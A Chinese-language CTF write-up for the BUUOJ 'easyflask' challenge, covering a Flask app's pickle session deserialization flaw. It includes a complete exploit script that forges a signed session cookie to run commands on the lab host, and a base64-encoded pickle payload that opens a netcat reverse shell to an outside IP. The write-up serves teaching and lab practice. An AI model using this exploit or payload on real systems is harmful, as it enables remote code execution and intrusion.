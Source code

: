 ## 0x01 easyflask

进入网页观察，发现文件读取，读到源码：

```
#!/usr/bin/python3.6 
import os 
import pickle 
from base64 import b64decode 
from flask import Flask, request, render_template, session 
app = Flask(__name__) 
app.config["SECRET_KEY"] = "glzjin22948575858jfjfjufirijidjitg3uiiuuh" 
User = type('User', (object,), {
    'uname': 'test', 
    'is_admin': 0, 
    '__repr__': lambda 
    o: o.uname, 
    })
 
@app.route('/', methods=('GET',)) 
def index_handler(): 
    if not session.get('u'): 
        u = pickle.dumps(User()) 
        session['u'] = u 
    return "/file?file=index.js" 
    
@app.route('/file', methods=('GET',)) 
def file_handler(): 
    path = request.args.get('file') 
    path = os.path.join('static', path) 
    if not os.path.exists(path) or os.path.isdir(path) \
    or '.py' in path or '.sh' in path or '..' in path or "flag" in path: 
        return 'disallowed' 
    with open(path, 'r') as fp: 
        content = fp.read() 
        return content 
    
@app.route('/admin', methods=('GET',)) 
def admin_handler(): 
    try: 
        u = session.get('u') 
        if isinstance(u, dict): 
            u = b64decode(u.get('b')) 
        u = pickle.loads(u) 
    except Exception: 
        return 'uhh?' 
    if u.is_admin == 1: 
        return 'welcome, admin' 
    else: 
        return 'who are you?' 

if __name__ == '__main__': app.run('0.0.0.0', port=80, debug=False)
```

其中发现了pickle反序列化，但是没有secret_key，去搜索/proc/self/environ目录下发现环境变量`secret_key`，

```
secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh
```

因而可以伪造session对目标进行pickle反序列化攻击



知识延伸：

pickle反序列化由`pickle.dump()`或`pickle.dumps()`与`pickle.load()`或`pickle.loads()`进行序列化与反序列化的操作，而由此生成的session结构则为

```
base64 + '.' + 时间戳 + '.' + 尾部，其中尾部为校验哈希值，base64格式形如：
{"u":{" b":"Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDEwLjEyMi4yMTguMjE1IDY2NjYgLWUgL2Jpbi9zaCcpIgpwMQp0cDIKUnAzCi4="}}
```

其中b的值为`pickle.dumps()`处理后的字段值再经过base64加密后得到的结果。

而与php反序列化相似的是，`pickle.loads()`或`pickle.load()`在进行反序列化时会默认调用函数`__reduce__`，因而可以覆写类中的`__reduce`函数产生RCE，如这次payload中的

```
class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/heartless"
        return (os.system,(cmd,))
```

本题大致思路：

由于根目录无权限读，因而采用`__reduce__`在最高权限的情况下将flag文件复制至`/tmp/heartless`目录下进行读取，而`/tmp/heartless`读取权限则是公开。

exp：

```
# -*- coding: utf-8 -*-
"""
Created on Tue May 11 17:17:22 2021

@author: 86136
"""


#!/usr/bin/python3.6
import pickle 
import base64
from flask.sessions import SecureCookieSessionInterface
import requests
import re
import pickletools
Secret_key = "glzjin22948575858jfjfjufirijidjitg3uiiuuh" 

url = "http://9d391cae-8dad-40fe-8c4c-55bae82ce64e.node3.buuoj.cn"

class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/heartless"
        return (os.system,(cmd,))

class FakeApp:
    secret_key = Secret_key

exp = {
       "b" : base64.b64encode(pickle.dumps(User()))
           }

fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
cookie = serializer.dumps({'u':exp})
print(cookie)

headers = {
    "Accept":"*/*",
    "Cookie":"session={0}".format(cookie)
    }


req = requests.get(url+"/admin", headers=headers)
print(req.text)

req = requests.get(url+"/file?file=/tmp/heartless", headers=headers)
print(req.text)
```

